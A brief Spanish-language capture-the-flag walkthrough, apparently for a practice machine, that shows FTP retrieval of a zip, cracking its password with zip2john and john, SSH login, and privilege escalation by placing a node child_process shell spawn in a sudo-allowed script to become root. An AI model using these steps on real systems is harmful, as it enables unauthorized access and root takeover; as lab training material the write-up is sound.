 nmap: 21,22

![image](https://github.com/user-attachments/assets/f278b033-4ada-4db4-bd22-f1b64aea118c)

vamos al ftp y nos pasamos el zip

![image](https://github.com/user-attachments/assets/e7fd669e-f52c-4af9-be43-554efac6afdb)

y nos pide contraseña

![image](https://github.com/user-attachments/assets/6b7ccde2-388d-42a7-9702-95da8b0c5a48)

ahora sacamos la contraseña con el comando

     zip2john secretitopicaron.zip > hash_zip

después 

     john has_zip


y da

![image](https://github.com/user-attachments/assets/f6956b23-3ba5-4d7d-9cb8-14159b066c1f)

ahora sacamos el zip

![image](https://github.com/user-attachments/assets/8dc71c63-1151-4a0a-94bb-e6827c905bbe)

y obtenemos la contraseña y usuario, entramos por el ssh, ahora entramos

![image](https://github.com/user-attachments/assets/26df6c64-9617-4635-acc5-895752ec119a)

al hacer sudo -l podemos ver que hay un archivo script.js pero no tiene nada dentro, pero igual esta el node

![image](https://github.com/user-attachments/assets/e6168389-fe56-423e-8d57-2c4f6d3da405)

buscamos el node: https://gtfobins.github.io/gtfobins/node/
dentro del script.js que esta vacío colocamos este comando

     require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]}) 

y ejecutamos el script

     sudo /usr/bin/node /home/mario/script.js

![image](https://github.com/user-attachments/assets/7d297060-b800-40f4-96ee-e1c6898eead9)

y somos root!

